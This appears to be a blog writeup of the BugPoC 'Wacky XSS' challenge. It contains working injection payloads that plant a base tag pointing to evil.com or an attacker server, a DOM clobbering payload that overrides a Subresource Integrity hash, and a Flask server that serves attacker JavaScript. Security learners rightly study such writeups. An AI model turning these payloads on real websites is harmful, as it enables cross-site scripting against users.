 ```yaml
---
layout: post
title:  "Wacky XSS challenge writeup"
description: In this writeup I will show my solution for Wacky XSS challenge.
---
```

Hi, here is my writeup of bugpoc's XSS challenge so we had a URL wacky.buggywebsite.com which shows this page.


![image](../../../assets/images/wacky-xss-1.png)


Here we had a textbox where we could enter text and it shows text with some fancy style but we were not allowed to enter some characters such as <, >, &, %, *


we had two JS file one was script.js and another was frame-analytics.js. In script.js we had


```javascript
var isChrome = /Chrome/.test(navigator.userAgent) && /Google Inc/.test(navigator.vendor);
	if (!isChrome){
		document.body.innerHTML = `
			<h1>Website Only Available in Chrome</h1>
			<p style="text-align:center"> Please visit <a href="https://www.google.com/chrome/">https://www.google.com/chrome/</a> to download Google Chrome if you would like to visit this website</p>.
		`;
	}
	
document.getElementById("txt").onkeyup = function(){
	this.value = this.value.replace(/[&*<>%]/g, '');
};


document.getElementById('btn').onclick = function(){
	val = document.getElementById('txt').value;
	document.getElementById('theIframe').src = '/frame.html?param='+val;
};

```


due to the replace function in above some special characters were replacing but here we could see that we have another file frame.html with a parameter so I opened it and I saw that value of parameter was reflecting in the title of webpage


![image](../../../assets/images/wacky-xss-2.png)


and also it was not filter means we have html injection so after closing the title tag we could execute HTML code. Now here we could not execute JavaScript directly because their was CSP (Content Security policy) so I started analyzing CSP and found that base-uri was missing.


*What can attacker do when base-uri is missing from CSP and we have a html injection?*


*Missing base-uri allows the injection of base tags. They can be used to set the base URL for all relative (script) URLs to an attacker controlled domain.*


![image](../../../assets/images/wacky-xss-3.png)


I hope you got the use of base tag from above image. Lets confirm this in challenge so I added base tag in parameter


![image](../../../assets/images/wacky-xss-4.png)


Here movie.pm4 was loading from evil.com. Now we had to load JavaScript file from our server and frame.html should be in iframe because if its not in iframe then frame-analytics.js will not load so I created payload to load JS file from another domain


```
Payload : </title></head><body><iframe src='https://wacky.buggywebsite.com/frame.html?param=aman</title><base href=//evil.com>' id='theIframe' name=iframe></iframe></body></html><!--
```


![image](../../../assets/images/wacky-xss-5.png)


and We were able to load frame-analytics.js from another domain. Now I setup my flask server to load my JavaScript code.


```python
from flask import Flask, request, send_from_directory, Response
from flask_cors import CORS, cross_origin


app = Flask(__name__, static_url_path='')
cors = CORS(app)
app.config['CORS_HEADERS'] = 'Content-Type'

@app.route("/files/<path:path>")
@cross_origin()
def exploit(path):
    jscode = """
    alert(document.domain);
        """;
    return Response(jscode, mimetype='application/javascript')

if __name__ == '__main__':
    app.run(debug=True)
```


![image](../../../assets/images/wacky-xss-6.png)


Now the response in console was different and It was giving error because of Subresource Integrity in script tag.


***Subresource Integrity (SRI)** is a security feature that enables browsers to verify that resources they fetch (for example, from a CDN) are delivered without unexpected manipulation. It works by allowing you to provide a cryptographic hash that a fetched resource must match.*


Its means we had to change the integrity attribute’s value also to load our script so I started looking for source code and found this.


```javascript
window.fileIntegrity = window.fileIntegrity || {
	'rfc' : ' https://w3c.github.io/webappsec-subresource-integrity/',
	'algorithm' : 'sha256',
	'value' : 'unzMI6SuiNZmTzoOnV4Y9yqAjtSOgiIgyrKvumYRI6E=',
	'creationtime' : 1602687229
}


// securely add the analytics code into iframe
script = document.createElement('script');
script.setAttribute('src', 'files/analytics/js/frame-analytics.js');
script.setAttribute('integrity', 'sha256-'+fileIntegrity.value);
script.setAttribute('crossorigin', 'anonymous');
analyticsFrame.contentDocument.body.appendChild(script);
```


If you don’t understand this then let me explain. This code is checking If value of window.fileIntegrity is assigned then use that value to generate script tag with integrity’s value window.fileIntegrity.value and fileIntegrity was a global variable.


so after this we had to use Dom Clobbering technique to control the global variable fileIntegrity


***DOM clobbering** is a technique in which you inject HTML into a page to manipulate the DOM and ultimately change the behavior of JavaScript on the page. DOM clobbering is particularly useful in cases where XSS is not possible, but you can control some HTML on a page where the attributes id or name are whitelisted by the HTML filter. The most common form of DOM clobbering uses an anchor element to overwrite a global variable, which is then used by the application in an unsafe way, such as generating a dynamic script URL.*


It was easy to bypass this SRI using Dom Clobbering so I used anchor tag with id and name to control integrity’s value.


```
paylaod : <a id=fileIntegrity><a id=fileIntegrity name=value href=theamanrawat>
```


this payload will defined the value of window.fileintegrity and we were able to load our JavaScript code.


![image](../../../assets/images/wacky-xss-7.png)


Now alert was blocked because of sandbox in iframe so we had to bypass this and bypassing this sandbox was very simple because we can execute JavaScript function such as createElement(), console.log() and etc..


To bypass this I created script tag outside the sandbox iframe and my final payload was this


```
</title></head><body><iframe src='https://wacky.buggywebsite.com/frame.html?param=aman</title><a id=fileIntegrity><a id=fileIntegrity name=value href=theamanrawat><base href=//myserver.com>' id='theIframe' name=iframe></iframe></body></html><!--
```


I sent this payload and the alert was executed :)


![image](../../../assets/images/wacky-xss-8.png)


# Now its time to create working PoC on bugpoc.


I used **mock endpoint builder** for JavaScript code


![image](../../../assets/images/wacky-xss-9.png)


and then **Flexible Redirector** for redirecting all path to mock endpoint.


Now I created front end poc to run the exploit.


![image](../../../assets/images/wacky-xss-10.png)


That’s it for this writeup. You can check the my PoC on https://bugpoc.com/poc#bp-uvrG5pXO & password : `SHYwasp53`


Thanks for reading.
